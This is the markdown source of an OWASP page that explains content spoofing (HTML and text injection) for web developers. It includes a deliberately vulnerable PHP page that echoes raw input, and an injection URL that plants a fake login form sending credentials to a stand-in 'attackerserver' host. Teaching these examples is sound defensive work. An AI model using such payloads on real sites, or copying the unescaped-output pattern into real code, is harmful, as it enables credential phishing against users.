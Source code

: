 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich, Arnout Engelen
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust.

The impact of a content spoofing attack strongly depends on the context:
user-supplied information that is reflected in a way that is correctly
escaped and clearly visually marked, such as in error messages, may be
harmless. On the other hand, input that is not clearly visually
distinguised from the 'valid' content may be used in social engineering
attacks, and when the input is not correctly escaped it may even
contain 'active' components, allowing attacks similar to
[Cross-site Scripting (XSS)](/xss).

> Attack Type: Client-Side

## Risk Factors

Content spoofing attacks can be relatively easy to detect in vulnerable
applications. To successfully execute an attack based on content
spoofing, the attacker also needs to trick the victim into clicking
a malicious link, for example via targeted communication or by doing SEO
injection in a way that search engines crawl and index crafted URLs
with falsified messages.

## Audit Guideline

Text injection can be easily found if user input (either via parameters
or directly in the URL) is reflected in the page response.

## Applicable Industries

- A business entity selling one type of product as a major business function

For example, Taxi hailing business, Online shopping business, Online service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site Scripting (XSS)](/xss). While XSS
uses `<script>` and other techniques to run JavaScript, content spoofing uses other techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
let's assume no output encoding is being implemented:

1. Attacker discovers injection vulnerability and decides to spoof a login form
2. Attacker crafts malicious link, including their injected HTML content, and sends it to a user via email
3. The user visits the page due to the page being located within a trusted domain
4. The attacker's injected HTML is rendered and presented to the user asking for a username and password
5. The user enters a username and password, which are both sent to the attackers server

- A simple PHP page containing an injection vulnerability via the `name` parameter:

```php
<?php
    $name = $_REQUEST ['name'];
?>
<html>
    <h1>Welcome to the Internet!</h1>
    <br>
    <body>
        Hello, <?php echo $name; ?>!
        <p>We are so glad you are here!</p>
    </body>
</html>
```

The page functionality can be tested by making the following GET request
to the page: `http://127.0.0.1/vulnerable.php?name=test`

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named `login.php` on the attacker's server via
POST.

```
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
name="password" /><br /><input type="submit" value="Login" /></form><!--
```

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1. An attacker identifies a web application that gives recommendations to its users on whether they should buy or sell a particular stock
2. The attacker identifies a vulnerable parameter
3. The attacker crafts a malicious link by slightly modifying a valid request
4. The link containing the modified request is sent to a user and they clicks the link
5. A valid webpage is created using the attackers malicious recommendation and the user believes the recommendation was from the stock website

**Valid Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now`

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now`

Other example:

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.`

## Related [Controls](https://owasp.org/www-community/controls/)

- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

- [CAPEC - 148](http://capec.mitre.org/data/definitions/148.html)
- [WASC - Content Spoofing](http://projects.webappsec.org/w/page/13246917/Content%20Spoofing)
- [Content Injection Attack](http://itlaw.wikia.com/wiki/Content_injection_attack)
- [CERT Advisory on Malicious HTML Tags](http://www.cert.org/advisories/CA-2000-02.html)
- OWASP's [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML Code Injection and Cross-site Scripting](http://www.technicalinfo.net/papers/CSS.html)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
